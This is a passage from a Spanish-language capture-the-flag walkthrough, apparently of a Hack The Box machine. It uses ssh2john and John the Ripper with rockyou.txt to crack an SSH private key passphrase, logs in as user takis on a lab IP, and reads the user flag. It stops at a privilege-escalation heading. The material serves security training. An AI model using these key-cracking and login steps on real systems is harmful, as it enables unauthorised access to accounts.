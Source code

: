 - Esta es la contraseña.

```bash
❯ /usr/share/john/ssh2john.py id_rsa > hash
❯ john hash -w:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)     
1g 0:00:00:01 DONE (2024-11-02 20:06) 0.7462g/s 582113p/s 582113c/s 582113C/s superpene..supermoy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## User flag

- Vamos a conectarnos.

```bash
❯ chmod 600 id_rsa
                                                                                                
❯ ssh -i id_rsa takis@10.10.10.10
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ED25519 key fingerprint is SHA256:5a3db7g5K/KVQU7u9yholvmJI7kp3pWZj0qtGz4Yr9Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

takis@tenten:~$ export TERM=xterm
```

```bash
takis@tenten:~$ cat user.txt 
2147f10efc4677c6e852f9a0b765e848
```

## Privilege Escalation
